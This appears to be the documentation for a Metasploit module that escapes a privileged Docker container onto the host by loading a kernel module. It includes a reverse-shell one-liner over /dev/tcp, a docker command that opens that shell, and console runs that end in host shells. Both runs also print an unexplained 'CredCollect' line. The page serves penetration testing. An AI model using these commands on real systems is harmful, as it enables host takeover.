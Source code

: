 ## Vulnerable Application

This module performs a container escape onto the host as the daemon user. It
takes advantage of the SYS_MODULE capability. If that exists and the linux
headers are available to compile on the target, then we can escape onto the host.

### Creating A Testing Environment

- Get a VM that you want to test on (or your own machine)
- Install Docker
- Run a listener (can be anything but this example will make use of the msfconsole `cmd/unix/reverse_bash` payload)
```msf
msf6 > use payload/cmd/unix/reverse_bash
msf6 payload(cmd/unix/reverse_bash) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 payload(cmd/unix/reverse_bash) > generate -f raw
bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
msf6 payload(cmd/unix/reverse_bash) > exploit -z
[*] Payload Handler Started as Job 0
msf6 payload(cmd/unix/reverse_bash) > 
[*] [2023.11.07-21:28:57] Started reverse TCP handler on 192.168.56.1:4444
```
- Create a privileged container (forwarding port 4444 in this example in order
to use a bind shell from the host. Container must be the same OS as host)
```bash
docker run --rm -it -p 4444:4444 --cap-add SYS_MODULE ubuntu bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
```
- Inside your session, install the required packages to run. Package manager will differ to OS, for debian as an example
```bash
apt update && apt install -y gcc make kmod linux-headers-$(uname -r)
```

## Verification Steps

1. Start msfconsole
2. Get a session
3. Install required packages into session (line 30)
4. Run `use exploit/linux/local/docker_privileged_container_kernel_escape`
5. Run `set SESSION [session]`
6. Run `check`
7. Run `set PAYLOAD [payload]`
8. Run `exploit`

## Options

### KernelModuleName

The name that the kernel module will be called in the system. The default if no
name is set is "{rand(8)}"

### WritableContainerDir

A directory where we can write files inside the container (default is `/tmp/.{rand(4)}`).
This is needed to drop the payload into the container.

### ReloadKernelModule

Rebuilds and reloads kernel module if its already loaded in case of repeat runs.

## Scenarios

### Container Escape from debian linux with reverse bash

```msf
msf6 > sessions -i 1 -c "apt update && apt install -y gcc make kmod linux-headers-$(uname -r)"
[*] Running 'apt update && apt install -y gcc make kmod linux-headers-$(uname -r)' on shell session 1 (192.168.56.126)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 1 
session => 1
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:42:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:42:42] Creating files
[*] [2023.11.07-21:42:43] Making kernel module
[+] [2023.11.07-21:42:43] Kernel module compiled successfully
[*] [2023.11.07-21:42:43] Loading kernel module
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.126:60974) at 2023-11-07 21:42:50 -0500
[*] This is CredCollect, I have the conn!
```

### Container Escape from arch linux with meterpreter

```msf
msf6 > sessions -i 2 -c "pacman -Syy --noconfirm gcc glibc make linux-headers"
[*] Running 'pacman -Syy --noconfirm gcc glibc make linux-headers' on shell session 2 (192.168.56.106)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 2 
session => 2
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set lhost vboxnet0 
lhost => vboxnet0
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:48:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:48:41] Creating files
[*] [2023.11.07-21:48:43] Making kernel module
[+] [2023.11.07-21:48:44] Kernel module compiled successfully
[*] [2023.11.07-21:48:44] Loading kernel module
[*] [2023.11.07-21:48:44] Sending stage (3045380 bytes) to 192.168.56.106
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.106:50402) at 2023-11-07 21:48:45 -0500
[*] This is CredCollect, I have the conn!
[!] [2023.11.07-21:48:45] Attempting to delete working directory /tmp/.IvLx
[*] Session 4 created in the background.
```
